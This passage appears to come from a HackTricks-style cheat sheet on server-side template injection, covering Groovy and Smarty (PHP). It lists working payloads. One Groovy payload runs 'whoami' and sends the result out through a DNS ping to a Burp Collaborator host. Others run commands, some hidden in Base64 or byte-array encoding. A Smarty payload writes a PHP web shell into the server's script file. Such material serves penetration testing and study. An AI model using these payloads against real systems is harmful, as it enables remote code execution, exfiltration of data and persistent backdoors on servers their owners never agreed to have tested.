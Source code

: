 def x

​

//Payload to get output

import groovy.*;

@groovy.transform.ASTTest(value={

cmd = "whoami";

out = new java.util.Scanner(java.lang.Runtime.getRuntime().exec(cmd.split(" ")).getInputStream()).useDelimiter("\\A").next()

cmd2 = "ping " + out.replaceAll("[^a-zA-Z0-9]","") + ".cq6qwx76mos92gp9eo7746dmgdm5au.burpcollaborator.net";

java.lang.Runtime.getRuntime().exec(cmd2.split(" "))

})

def x

​

//Other payloads

new groovy.lang.GroovyClassLoader().parseClass("@groovy.transform.ASTTest(value={assert java.lang.Runtime.getRuntime().exec(\"calc.exe\")})def x")

this.evaluate(new String(java.util.Base64.getDecoder().decode("QGdyb292eS50cmFuc2Zvcm0uQVNUVGVzdCh2YWx1ZT17YXNzZXJ0IGphdmEubGFuZy5SdW50aW1lLmdldFJ1bnRpbWUoKS5leGVjKCJpZCIpfSlkZWYgeA==")))

this.evaluate(new String(new byte[]{64, 103, 114, 111, 111, 118, 121, 46, 116, 114, 97, 110, 115, 102, 111, 114, 109, 46, 65, 83, 84, 84, 101, 115, 116, 40, 118, 97, 108, 117, 101, 61, 123, 97, 115, 115, 101, 114, 116, 32, 106, 97, 118, 97, 46, 108, 97, 110, 103, 46, 82, 117, 110, 116, 105, 109, 101, 46, 103, 101, 116, 82,117, 110, 116, 105, 109, 101, 40, 41, 46, 101, 120, 101, 99, 40, 34, 105, 100, 34, 41, 125, 41, 100, 101, 102, 32, 120}))

## 

Smarty (PHP)[](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#smarty-php)

{$smarty.version}

{php}echo `id`;{/php} //deprecated in smarty v3

{Smarty_Internal_Write_File::writeFile($SCRIPT_NAME,"<?php passthru($_GET['cmd']); ?>",self::clearConfig())}

{system('ls')} // compatible v3

{system('cat index.php')} // compatible v3

**More information**

-   In Smarty section of [https://portswigger.net/research/server-side-template-injection](https://portswigger.net/research/server-side-template-injection)​
    

-   ​[https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#smarty](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#smarty)​
    